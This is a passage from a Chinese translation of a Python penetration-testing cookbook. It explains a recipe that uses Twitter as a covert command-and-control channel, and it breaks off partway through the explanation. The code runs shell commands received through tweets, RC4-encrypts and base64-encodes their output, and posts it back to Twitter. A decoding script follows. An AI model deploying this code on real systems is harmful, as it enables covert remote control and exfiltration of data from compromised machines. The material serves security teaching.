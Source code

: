 ```py
  key = user[1]["text"].encode('hex')
  enc = ARC4.new(key)
  response = subprocess.check_output(command.split())

  enres = enc.encrypt(response).encode("base64")

  for i in xrange(0, len(enres), 140):
          t.statuses.update(status=enres[i:i+140])
  time.sleep(3600)
```

解码脚本如下：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

脚本进行中的示例如下：

![如何做…](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_08_02.jpg)

## 它是如何工作的…

我们像往常一样导入我们的库。有很多 Twitter 的 Python 库；我只是使用了[`code.google.com/p/python-twitter/`](https://code.google.com/p/python-twitter/)上可用的标准 twitter API。代码如下：

```py
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time
```

为了满足 Twitter 的身份验证要求，我们需要从[developer.twitter.com](http://developer.twitter.com)的**App 页面**中检索**App 令牌**、**App 密钥**、**用户令牌**和**用户密钥**。我们将它们分配给变量，并设置我们与 Twitter API 的连接：

```py
token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))
```

我们设置一个无限循环：

```py
while 1:
```
